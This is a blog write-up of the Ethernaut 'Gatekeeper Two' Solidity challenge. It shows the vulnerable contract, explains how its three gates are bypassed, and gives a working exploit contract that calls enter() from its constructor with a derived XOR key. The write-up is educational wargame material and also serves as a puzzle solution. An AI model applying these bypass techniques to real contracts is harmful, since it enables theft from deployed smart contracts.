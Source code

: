 ```yaml
---
layout: post
title: Ethernaut - 14. Gatekeeper Two
date:  2022-09-27
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌕🌑🌑
> This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.<br />
Things that might help:
- Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
- The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. [See](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) here for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
- The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [here](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.


## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## Writeup
There are three gates we need to pass.
- Gate one : Using the contract to call the method. `msg.sender` will be the contract address and `tx.origin` will be my account address.
- Gate two : When contract is being created, code size (extcodesize) is 0. Write all code in `constructor()` to pass the check. To learn more detail, you can visit [this website](https://solidity-by-example.org/hacks/contract-size/).
- Gate three : If a ^ b = c then c ^ a = b . We can use this logic to derive the value of `_gateKey`. To learn more detail, you can visit [this website](https://medium.com/@imolfar/bitwise-operations-and-bit-manipulation-in-solidity-ethereum-1751f3d2e216).

1. Get new instance.
2. Create a new contract.
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity >=0.8.0 <0.9.0;

    interface IGatekeeperTwo {
        function enter(bytes8 _gateKey) external returns (bool);
    }

    contract GatekeeperTwoExploiter {
        constructor() {
            unchecked{
                bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ uint64(0) - 1  );
                IGatekeeperTwo(YOUR_INSTANCE_ADDRESS).enter(key);
            }
        }
    }
    ```
3. Compile and deploy.
4. Submit instance ξ( ✿＞◡❛)


